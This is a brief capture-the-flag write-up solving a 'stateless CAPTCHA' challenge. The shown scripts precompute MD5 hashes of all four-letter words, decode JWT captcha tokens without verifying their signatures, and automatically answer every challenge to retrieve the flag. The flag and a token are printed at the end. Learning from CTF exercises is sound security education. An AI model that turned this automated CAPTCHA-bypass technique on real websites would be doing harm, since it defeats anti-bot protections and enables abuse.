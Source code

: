 ```yaml
---
created: 2024-06-09T18:06
updated: 2024-06-10T23:17
---
```


> Can you bypass this website's new stateless CAPTCHA system?

---

Seems to be a MD5 captcha system.

# First we will generate the entire hash table for 4 letter words.

```python
import hashlib  
import pickle  
  
md5_hash_table = {}  
for i in range(26 ** 4):  
    perm = ''  
    for j in range(4):  
        perm += chr(65 + (i // (26 ** j)) % 26)  
    md5_hash_table[hashlib.md5(perm.encode('utf-8')).hexdigest()] = perm  
  
with open("hash_table.pkl", "wb") as f:  
    pickle.dump(md5_hash_table, f)
```

# Then, we will solve the captcha, and get the flag.

```python
import pickle  
from tqdm import tqdm  
import jwt  
import requests  
  
with open("hash_table.pkl", "rb") as f:  
    loaded_hash_table = pickle.load(f)  
  
url = "http://challs.bcactf.com:30477/captcha"  
data = requests.post(url, json={"routeId": "/flag"}).json()  
for i in tqdm(range(data['total'])):  
    captchaToken, solved, total, done = data['captchaToken'], data['solved'], data['total'], data['done']  
    decoded = jwt.decode(captchaToken, algorithms=["HS256"], options={"verify_signature": False})  
    h = decoded['challengeId']  
    d = loaded_hash_table[h]  
    data = requests.post(url, json={"captchaToken": captchaToken, "word": d}).json()  
print(f"http://challs.bcactf.com:30477/flag?token={data['captchaToken']}")
```

Simple.

```
http://challs.bcactf.com:30477/flag?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjYXB0Y2hhSWQiOiJkOWE5ZThiNi1hODUwLTQ5NDQtYTEwNC0wMmJiYTYyNDJhMTMiLCJyb3V0ZUlkIjoiL2ZsYWciLCJjaGFsbGVuZ2VJZCI6bnVsbCwic29sdmVkIjo3NSwidG90YWwiOjc1LCJkb25lIjp0cnVlLCJpYXQiOjE3MTc5NzMwMzQsImV4cCI6MTcxNzk3MzA5NH0._XcYLLZL_YJ8GpngWfDsp_fAz-G_92NSXUEwoTIdhC4
```

> # The Flag
> bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}
